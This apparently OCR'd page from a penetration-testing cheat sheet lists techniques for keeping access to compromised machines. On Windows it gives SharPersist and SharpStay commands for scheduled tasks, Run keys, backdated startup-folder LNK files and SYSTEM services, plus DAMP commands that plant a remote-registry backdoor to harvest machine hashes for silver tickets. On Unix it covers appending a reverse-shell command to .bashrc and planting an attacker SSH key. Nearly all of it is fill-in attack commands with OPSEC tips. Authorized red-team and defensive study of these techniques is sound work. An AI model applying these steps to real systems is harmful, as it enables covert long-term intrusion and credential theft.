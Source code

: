 ### __Get persistent access:__
#### _Windows persistent access techniques:_
>The following commands are examples and must be modified to your needs\. For the SharpPersist tool it is recommended to first run the "\-m list" \(to list all present entries for the specified persistence technique\) and the "\-m check" argument \(verifies if specified persistence technique will work\) before executing the actual persistence command\. 
- New Scheduled Task \(userland persistence & NT AUTHORITY\SYSTEM). This persistence technique will create a new scheduled task in the context of the current user/SYSTEM privileges (for a SYSTEM task, first elevate to NT AUTHORITY\SYSTEM\). By default the task is set as a "daily" task but can be changed to "hourly" or "logon" \(logon requires admin privs\):
    - \([SharpPersist](https://github.com/fireeye/SharPersist/wiki)\): ```SharPersist.exe -t schtask -c "<payload.exe to execute>" (-a "<additional arguments>") -n "<new scheduled task name>" -m add (-o logon)```
- Registry \(userland persistence\): This persistence technique will create a registry key in "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\Run" or "HKCU\\Software\\Microsoft\\Windows\\CurrentVersion\\RunOnce" and run a payload in the context of the user account that added the registry key \(the "env" option can be used for registry obfuscation and must also be specified when using the "remove" option\) 
    - \(SharpPersist\): ```SharPersist.exe -t reg -c "<payload.exe to execute>" (-a "<additional arguments>") -k "<hkcurun | hkcurunonce>" -v "<registry value name>" -m add (-o env)```
- Startup Folder \(userland persistence\): This persistence technique creates a .LNK file and places it in the user's startup folder \(timestamp of the new LNK file is modified to 60\-90 days before creation and placed in the folder "C:\\Users\\<user>\\AppData\\Roaming\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\example\.lnk"\) 
    - \(SharpPersist\): ```SharPersist.exe -t startupfolder -c "<binary.exe to execute>" (-a "<additional arguments>") -f "<LNK file name>" -m add```
- Create new service \(NT AUTHORITY\SYSTEM persistence\): This creates a new service that will establish SYSTEM level persistence on the current host \(OPSEC: this will directly start the service and therefore execute the payload\) (make sure the current context is NT AUTHORITY\SYSTEM\) \([SharpStay](https://github.com/0xthirteen/SharpStay)\): ```SharpStay.exe action=CreateService servicename=<name of new service> command="<command to run>"```
- Remote Registry Backdoor (DAMP) \(NT AUTHORITY\SYSTEM persistence\): This technique implements a host\-based DACL backdoor to enable remote retrieval of secrets from a machine, including SAM and domain cashed hashes\. 
    - 1\. Run the 'Add\-RemoteRegBackdoor\.ps1' on the target machine from which you would like to harvest the machine account hash \([DAMP](https://github.com/HarmJ0y/DAMP)\): ```Add\-RemoteRegBackdoor -Trustee <domain>\<already owned useraccount>```
    - 2\. From the already owned user account, import the 'RemoteHashRetrieval\.ps1' file and execute the following command to obtain the target machine hash \(DAMP\): ```Get-RemoteMachineAccountHash -ComputerName <FQDN target computer> -Verbose```
    - 3\. Forge a silver ticket to gain access to the target system\. 

#### _Unix persistent access techniques:_

- Setup persistence via user config files:
    - 1\. In the current user's home directory, select either the '\.bash\_profile' file \(executed when initially logging in to the system\) or the '\.bashrc' file \(executed when a new terminal window is opened\) for modification\.
    - 2\. Add a reverse shell command or other action to the file that will allow for persistent access: ```echo "<command to run>" >> ~/.bashrc```
- Setup persistent access through SSH to target host:
    - 1\. Create \.ssh directory on target host if not present: ```mkdir .ssh```
    - 2: Give the \.ssh directory the correct permissions: ```chmod 700 .ssh```
    - 3\. If the authorized\_keys doen't exist, create it: ```touch authorized_keys```
    - 4\. On your own system create new ssh key pair: ```ssh-keygen -f <random name key>```
    - 5\. Copy the \.pub key and add it to the authorized\_keys file on the target system: ```echo '<key string>' >> authorized_keys```
    - 6\. Give the authorized\_keys file the correct permissions: ```chmod 600 authorized_keys```
    - 7\. On your own system, give the private key the correct permissions: ```chmod 600 <private key>```
    - 8\. Login from your own host to target host: ```ssh -i <private key> <username>@<target ip>```

